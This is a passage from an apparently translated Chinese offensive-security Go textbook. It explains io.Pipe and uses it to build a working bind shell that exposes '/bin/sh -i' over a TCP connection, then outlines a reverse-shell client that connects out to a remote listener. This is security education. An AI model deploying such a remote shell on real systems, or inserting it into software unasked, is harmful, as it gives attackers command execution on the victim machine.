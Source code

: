 ```
}
```

这个解决方案虽然足够，但并不优雅。虽然工作代码比优雅的代码更为重要，我们将利用这个问题作为机会来介绍`io.Pipe()`函数——Go 语言的同步内存管道，可以用于连接`Readers`和`Writers`：

```
func Pipe() (*PipeReader, *PipeWriter)
```

使用`PipeReader`和`PipeWriter`可以避免显式刷新写入器，并将标准输出与 TCP 连接同步连接。你将再次重写处理函数：

```
func handle(conn net.Conn) {
    // Explicitly calling /bin/sh and using -i for interactive mode
    // so that we can use it for stdin and stdout.
    // For Windows use exec.Command("cmd.exe").
    cmd := exec.Command("/bin/sh", "-i")
    // Set stdin to our connection
    rp, wp := io.Pipe()❶
    cmd.Stdin = conn
 ❷ cmd.Stdout = wp
 ❸ go io.Copy(conn, rp)
    cmd.Run()
    conn.Close()
}
```

对`io.Pipe()`的调用❶创建了一个同步连接的读取器和写入器——写入到写入器（本示例中的`wp`）的数据将被读取器（`rp`）读取。因此，你将写入器分配给`cmd.Stdout`❷，然后使用`io.Copy(conn, rp)`❸将`PipeReader`链接到 TCP 连接。通过使用 goroutine 来防止代码阻塞，你完成了这一操作。命令的任何标准输出都会发送到写入器，然后通过管道传输到读取器并通过 TCP 连接发送出去。这个实现够优雅吗？

就这样，从等待连接的 TCP 监听器的角度，你成功地实现了 Netcat 的巨大安全漏洞。你可以使用类似的逻辑，从连接客户端的角度实现功能，将本地二进制程序的标准输出和标准输入重定向到远程监听器。具体细节由你来确定，但可能包括以下内容：

+   通过`net.Dial(`network`, `address string`)`建立与远程监听器的连接。

+   通过`exec.Command(`name string`, `arg ...string`)`初始化一个`Cmd`。

+   重定向`Stdin`和`Stdout`属性，以便使用`net.Conn`对象。

+   运行命令。

此时，监听器应该已接收到连接。发送到客户端的任何数据应视为客户端的标准输入(stdin)，而在监听器上接收到的任何数据应视为标准输出(stdout)。此示例的完整代码可在[*https://github.com/blackhat-go/bhg/blob/master/ch-2/netcat-exec/*](https://github.com/blackhat-go/bhg/blob/master/ch-2/netcat-exec/main.go)*main.go*中找到。

### 总结

现在你已经探索了 Go 语言在网络、I/O 和并发方面的实际应用，让我们继续讨论如何创建可用的 HTTP 客户端。
